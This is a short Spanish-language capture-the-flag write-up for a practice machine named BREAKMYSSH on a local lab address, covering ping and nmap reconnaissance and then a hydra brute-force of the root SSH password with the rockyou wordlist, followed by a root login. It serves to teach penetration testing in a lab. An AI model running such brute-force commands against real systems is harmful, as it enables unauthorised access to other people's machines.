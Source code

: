 ```yaml
---
description: 'Dificultad: Muy fácil'
---
```


# Máquina BREAKMYSSH

Fecha: 14 de Marzo de 2025

Objetivo: 172.17.0.2

***

## Fase de reconocimiento

Comenzamos haciendo un ping a la máquina para ver si nos contesta y está encendida.

```
ping 172.17.0.2
```

Ok, la máquina está encendida, podemos comenzar la fase de reconocimiento.

Proseguimos con un nmap para ver los puertos, sistema operativo, etc. Ejecutamos el comando nmap:

```
nmap -p- -O -v 172.17.0.2
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Salida del comando NMAP</p></figcaption></figure>

Vemos que solo nos ha arrojado que únicamente esta máquina tiene abierto el puerto 22.

Si hacemos directamente un ataque con hydra, podemos terminar, pero quería aprovechar para instalar Metasploit.

```
 hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption><p>Salida del comando hydra</p></figcaption></figure>

## Fase de Post-Explotación

Ahora vendría la fase donde nos conectamos a la máquina por SSH para verificar que realmente hemos obtenido permisos de root.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption><p>Conexión como usuario root</p></figcaption></figure>

Y efectivamente así termina esta máquina sin escalada de privilegios.





